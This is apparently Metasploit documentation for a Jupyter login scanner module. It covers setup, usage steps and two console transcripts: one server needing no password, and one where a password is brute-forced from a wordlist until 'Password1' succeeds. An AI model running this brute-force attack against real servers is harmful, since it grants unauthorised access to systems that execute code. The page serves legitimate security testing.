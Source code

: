 ## Vulnerable Application

This module checks if authentication is required on a Jupyter Lab or Notebook server. If it is, this module will
bruteforce the password. Jupyter only requires a password to authenticate, usernames are not used. This module is
compatible with versions 4.3.0 (released 2016-12-08) and newer. [Version 4.3.0][1] is the first version in which
authentication is required by default.

A note on names, "Jupyter Lab" is the next-generation interface for "Jupyter Notebooks" which was the successor of the
original IPython Notebook system. This module is compatible with both standard Jupyter Notebook and Jupyter Lab servers.

### Installation

1. Install the latest version of Jupyter from PyPi using pip: `pip install notebook`. The "notebook" package is the core
  application and is the one whose version number is used as the Jupyter version number referred to in this document.
1. Start Jupyter using `jupyter notebook`
    * New installs will randomly generate an authentication token and open the browser with it
    * As of [version 5.3][2], the user will be prompted to set a password the first time they open the UI
1. With the password set, the module can be tested

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/jupyter_login`
1. Set the `RHOSTS` option
    * With no other options set, this will only check if authentication is required
1. Do: `run`
1. You should the server version
1. If password options (such as `PASS_FILE`) where specified, and the server requires authentication then you should see
   login attempts

## Options

## Scenarios

### Jupyter Notebook 4.3.0 With No Authentication Requirement

```
msf5 > use auxiliary/scanner/http/jupyter_login 
msf5 auxiliary(scanner/http/jupyter_login) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf5 auxiliary(scanner/http/jupyter_login) > set PASS_FILE /tmp/passwords.txt
PASS_FILE => /tmp/passwords.txt
msf5 auxiliary(scanner/http/jupyter_login) > run

[*] 192.168.159.128:8888 - The server responded that it is running Jupyter version: 4.3.0
[+] 192.168.159.128:8888 - No password is required.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/jupyter_login) >
```

### Jupyter Notebook 6.0.2 With A Password Set

```
msf5 > use auxiliary/scanner/http/jupyter_login 
msf5 auxiliary(scanner/http/jupyter_login) > set PASS_FILE /tmp/passwords.txt
PASS_FILE => /tmp/passwords.txt
msf5 auxiliary(scanner/http/jupyter_login) > run

[*] 192.168.159.128:8888 - The server responded that it is running Jupyter version: 6.0.2
[-] 192.168.159.128:8888 - LOGIN FAILED: :Password (Incorrect)
[+] 192.168.159.128:8888 - Login Successful: :Password1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/jupyter_login) >
```

[1]: https://jupyter-notebook.readthedocs.io/en/stable/changelog.html#release-4-3
[2]: https://jupyter-notebook.readthedocs.io/en/stable/public_server.html#automatic-password-setup
